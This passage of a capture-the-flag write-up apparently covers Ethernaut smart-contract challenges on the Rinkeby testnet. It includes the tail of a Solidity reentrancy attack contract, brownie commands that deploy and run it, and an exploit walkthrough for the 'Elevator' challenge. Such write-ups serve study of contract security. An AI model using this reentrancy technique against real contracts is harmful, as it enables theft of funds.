 ```solidity
    }

    function attack() external payable {
        // donate with value >=amount
        require(msg.value >= amount);
        reentrancyContract.donate{value: amount}(address(this));
        // withdrawn immidiately , get sent ether that will trigge fallback function
        reentrancyContract.withdraw(amount);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }

    // can write the withdrawn function to wallet 
}
```

- `brownie console  --network rinkeby`
```bash
>>> challenge_address = '...'

>>> r = ReentrancyAttack.deploy(challenge_address, {'from':hacking_account, 'value': 1000000000000000})

>>> r.attack({'from':hacking_account, 'value': 1000000000000000})
```

### 11. Elevator
- result from `await contract.top()` is `False` and need to be `True` to beat the challenge
- `Building building = Building(msg.sender)` so we need to write a contract (a msg.sender)
- that contracts need to have `isLastFloor` function as the `interface Building` specified
  - `if (!building.isLastFloor(_floor))` so `isLastFloor` function need to return `False` first time being called
  - top = building.isLastFloor(floor)

**Solution**
- `brownie console  --network rinkeby`
```bash
>>> challenge_address = '...'

>>> challenge = Elevator.at(challenge_address)

>>> challenge.top() #check
False

>>> ea = ElevatorAttack.deploy(challenge_address, {'from': hacking_account})

>>> ea.attack()

>>> challenge = Elevator.at(challenge_address)

>>> challenge.top() #check
True
```
